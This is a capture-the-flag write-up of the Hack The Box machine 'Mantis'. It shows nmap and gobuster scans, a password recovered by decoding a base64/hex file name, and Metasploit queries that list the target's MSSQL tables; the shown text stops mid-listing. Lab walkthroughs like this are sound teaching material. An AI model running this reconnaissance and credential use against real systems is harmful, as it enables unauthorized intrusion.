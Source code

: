 ```yaml
---
layout: post
title: Mantis(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.52

**Nmap**:-

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A --top-ports 10000 10.10.10.52</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2018-02-24 03:38 EST
<br>Nmap scan report for 10.10.10.52
<br>Host is up (0.16s latency).
<br>Not shown: 8270 closed ports
<br>PORT      STATE SERVICE      VERSION
<br><font color="BB69EC">53/tcp</font>    open  <font color="53E100">domain</font>       Microsoft DNS 6.1.7601
<br>| dns-nsid: 
<br>|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
<br><font color="BB69EC">88/tcp</font>    open  <font color="53E100">kerberos-sec</font> Microsoft Windows Kerberos (server time: 2018-02-24 09:03:52Z)
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">139/tcp</font>   open  <font color="53E100">netbios-ssn</font>  Microsoft Windows netbios-ssn
<br><font color="BB69EC">389/tcp</font>   open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">445/tcp</font>   open  <font color="53E100">microsoft-ds</font> Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
<br><font color="BB69EC">464/tcp</font>   open  <font color="53E100">kpasswd5?</font>
<br><font color="BB69EC">593/tcp</font>  open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">636/tcp</font>   open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">1337/tcp</font>  open  <font color="53E100">http</font>         Microsoft IIS httpd 7.5
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: IIS7
<br><font color="BB69EC">1433/tcp</font>  open  <font color="53E100">ms-sql-s</font>     Microsoft SQL Server 2014 12.00.2000.00; RTM
<br>| ms-sql-ntlm-info: 
<br>|   Target_Name: HTB
<br>|   NetBIOS_Domain_Name: HTB
<br>|   NetBIOS_Computer_Name: <font color="53E100">MANTIS</font>
<br>|   DNS_Domain_Name: <font color="53E100">htb.local</font>
<br>|   DNS_Computer_Name: <font color="53E100">mantis.htb.local</font>
<br>|   DNS_Tree_Name: htb.local
<br>|_  Product_Version: 6.1.7601
<br>| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
<br>| Not valid before: 2018-02-20T21:58:06
<br>|_Not valid after:  2048-02-20T21:58:06
<br>|_ssl-date: 2018-02-24T09:05:13+00:00; -2s from scanner time.
<br><font color="BB69EC">3268/tcp</font>  open  <font color="53E100">ldap</font>         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
<br><font color="BB69EC">3269/tcp</font>  open  <font color="53E100">tcpwrapped</font>
<br><font color="BB69EC">5722/tcp</font>  open  <font color="53E100">msrpc</font>       Microsoft Windows RPC
<br><font color="BB69EC">8080/tcp</font>  open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-open-proxy: Proxy might be redirecting requests
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Tossed Salad - Blog
<br><font color="BB69EC">9389/tcp</font>  open  <font color="53E100">mc-nmf</font>       .NET Message Framing
<br><font color="BB69EC">47001/tcp</font> open  <font color="53E100">http</font>         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
<br>|_http-server-header: Microsoft-HTTPAPI/2.0
<br>|_http-title: Not Found
<br><font color="BB69EC">49152/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49153/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49155/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49157/tcp</font> open  <font color="53E100">ncacn_http</font>   Microsoft Windows RPC over HTTP 1.0
<br><font color="BB69EC">49158/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49164/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49166/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br><font color="BB69EC">49168/tcp</font> open  <font color="53E100">msrpc</font>        Microsoft Windows RPC
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
<br>TCP/IP fingerprint:
<br>OS:SCAN(V=7.50%E=4%D=2/24%OT=53%CT=1%CU=41156%PV=Y%DS=2%DC=T%G=Y%TM=5A912B4
<br>OS:3%P=i686-pc-linux-gnu)SEQ(SP=107%GCD=2%ISR=10A%TI=I%CI=I%TS=7)SEQ(SP=107
<br>OS:%GCD=1%ISR=10A%TI=I%TS=7)OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT
<br>OS:11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W1=2000%W2=2000%W3=2000
<br>OS:%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M54DNW8NNS%CC=N%Q=)T
<br>OS:1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%
<br>OS:O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80
<br>OS:%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
<br>OS:=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A
<br>OS:=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
<br>OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)</p>

<p>Network Distance: 2 hops
<br>Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p> Host script results:
<br>|_clock-skew: mean: -2s, deviation: 0s, median: -2s
<br>| ms-sql-info: 
<br>|   10.10.10.52:1433: 
<br>|     Version: 
<br>|       name: Microsoft SQL Server 2014 RTM
<br>|       number: 12.00.2000.00
<br>|       Product: Microsoft SQL Server 2014
<br>|       Service pack level: RTM
<br>|       Post-SP patches applied: false
<br>|_    TCP port: 1433
<br>| smb-os-discovery: 
<br>|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
<br>|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
<br>|   Computer name: mantis
<br>|   NetBIOS computer name: MANTIS\x00
<br>|   Domain name: htb.local
<br>|   Forest name: htb.local
<br>|   FQDN: mantis.htb.local
<br>|_  System time: 2018-02-24T04:05:16-05:00
<br>| smb-security-mode: 
<br>|   account_used:
<br>|   authentication_level: user
<br>|   challenge_response: supported
<br>|_  message_signing: required
<br>|_smbv2-enabled: Server supports SMBv2 protocol </p>

<p>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   158.80 ms 10.10.14.1
<br>2   159.05 ms 10.10.10.52</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 1719.57 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

**Web :-**

**Port : 8080**
![1](https://teckk2.github.io/assets/images/Mantis/1.png)
![2](https://teckk2.github.io/assets/images/Mantis/2.png)
<br>On port 8080 Orchard CMS is running

**Port : 1337**
**Gobuster**

<font size="1">
<div style="height:200px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.52:1337/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt </p>

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.52:1337/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 200,204,301,302,307
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.52:1337/secure_notes (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>

</div>
</font>

![3](https://teckk2.github.io/assets/images/Mantis/3.png)
<br>Open dev-notes and you will see there is a hint for Orchid CMS with username **admin**
![4](https://teckk2.github.io/assets/images/Mantis/4.png)
<br>If you look at the URL carefully you will notice it's a base64
<br>[http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt](http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt)
<br>**NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx**
![5](https://teckk2.github.io/assets/images/Mantis/5.png)

<br>The output is in **Hex** which we can decrypt using an [online tool](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

![6](https://teckk2.github.io/assets/images/Mantis/6.png)
<br>**Username : admin**
<br>**Password: m$$ql_S@_P@ssW0rd!**
<br>Now we can proceed further to enumerate the database as we have the password.
<br>I am not going to show every steps of the enumeration, but only the main parts of it.

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p>msf > use auxiliary/admin/mssql/mssql_sql
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set username admin
<br>username => admin
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set password m$$ql_S@_P@ssW0rd!
<br>password => m$$ql_S@_P@ssW0rd!
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set RHOST 10.10.10.52
<br>RHOST => 10.10.10.52
<br>msf auxiliary(<font color="red">mssql_sql</font>) > set SQL USE orcharddb; SELECT * FROM INFORTION_SCHEMA.TABLES
<br>SQL => USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br>msf auxiliary(<font color="red">mssql_sql</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - SQL Query: USE orcharddb; SELECT * FROM INFORMATION_SCHEMA.TABLES
<br><font color="RoyalBlue">[*]</font> 10.10.10.52:1433 - Row Count: 62 (Status: 16 Command: 193)</p>



<p>&nbsp;TABLE_CATALOG&nbsp;&nbsp;TABLE_SCHEMA&nbsp;&nbsp;TABLE_NAME&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;TABLE_TYPE
<br>&nbsp;-------------&nbsp;&nbsp;------------&nbsp;&nbsp;----------&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----------
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_RecentBlogPostsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Blogs_BlogArchivesPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_TransitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_WorkflowDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_AwaitingActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Workflows_ActivityRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagsPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DataMigrationRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_TagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Tags_ContentTagRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_DistributedLockRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentPartFieldDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypeDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ContentTypePartDefinitionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellDescriptorRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellFeatureStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellParameterRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Settings_ShellStateRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentItemVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_ContentTypeRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Orchard_Framework_CultureRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_BodyPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_CommonPartVersionRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Common_IdentityPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
<br>&nbsp;orcharddb&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;dbo&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;blog_Containers_ContainerPartRecord&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BASE TABLE
